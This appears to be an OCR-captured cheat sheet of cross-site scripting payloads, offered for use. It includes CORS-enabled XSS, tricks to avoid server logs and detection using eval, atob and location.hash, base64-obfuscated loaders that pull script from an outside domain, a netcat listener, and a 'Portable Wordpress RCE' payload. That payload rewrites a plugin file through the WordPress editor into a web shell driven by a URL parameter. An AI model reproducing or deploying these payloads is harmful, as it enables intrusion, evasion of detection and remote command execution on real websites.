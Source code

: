 PHP File for XHR Remote Call

<?php header("Access-Control-Allow-Origin: *"); ?>
<img src=1 onerror=alert(1)>

CORS Enabled XSS

<?php header("Access-Control-Allow-Origin: *"); ?>
<img src=1 onerror=alert(document.domain)>
#data:text/html,<img src=1 onerror=alert(document.domain)

Server Log Avoidance

<svg onload=eval(URL.slice(-8))>#alert(1)
<svg onload=eval(location.hash.slice(1)>#alert(1)
<svg onload=innerHTML=location.hash>#<script>alert(1)</script>

Avoiding XSS Detection

with(document)body.appendChild(createElement('script')).src='//DOMAIN'
<svg/onload=eval(location.hash.slice(1))>#with(document)
body.appendChild(createElement('script')).src='//DOMAIN'
#with(document)body.appendChild(createElement
(/script/.source)).src=atob(/Ly9icnV0ZWxvZ2ljLmNvbS5ici8y/.source)
<svg/onload=eval(atob(location.hash.slice(1)))>
#d2l0aChkb2N1bWVudClib2R5LmFwcGVuZENoaWxkKGNyZW
F0ZUVsZW1lbnQoL3NjcmlwdC8uc291cmNlKSkuc3JjPWF0b
2IoL0x5OWljblYwWld4dloybGpMbU52YlM1aWNpOHkvLnNv
dXJjZSk=
<svg/onload=eval(atob(URL.slice(-148)))>
#d2l0aChkb2N1bWVudClib2R5LmFwcGVuZENoaWxkKGNyZW
F0ZUVsZW1lbnQoL3NjcmlwdC8uc291cmNlKSkuc3JjPWF0b
2IoL0x5OWljblYwWld4dloybGpMbU52YlM1aWNpOHkvLnNv
dXJjZSk=

Shortest PoC

<base href=//0>
$ while:; do echo "alert(1)" | nc -lp80; done
Portable Wordpress RCE
<script/src="data:,eval(atob(location.hash.slice(1)))//#
#eD1uZXcgWE1MSHR0cFJlcXVlc3QoKQ0KcD0nL3dwLWFkbWluL3Bsd
Wdpbi1lZGl0b3IucGhwPycNCmY9J2ZpbGU9YWtpc21ldC9pbmRleC5w
aHAnDQp4Lm9wZW4oJ0dFVCcscCtmLDApDQp4LnNlbmQoKQ0KJD0n
X3dwbm9uY2U9JysvY2UiIHZhbHVlPSIoW14iXSo/KSIvLmV4ZWMoeC
5yZXNwb25zZVRleHQpWzFdKycmbmV3Y29udGVudD08Pz1gJF9HRV
RbYnJ1dGVdYDsmYWN0aW9uPXVwZGF0ZSYnK2YNCngub3BlbignUE
9TVCcscCtmLDEpDQp4LnNldFJlcXVlc3RIZWFkZXIoJ0NvbnRlbnQtVHl
wZScsJ2FwcGxpY2F0aW9uL3gtd3d3LWZvcm0tdXJsZW5jb2RlZCcpD
Qp4LnNlbmQoJCk=
http://DOMAIN/WP-ROOT/wp-content/plugins/akismet/index.php?brute=CMD

* In URLs:
& => %26 , # => %23 , + => %2B
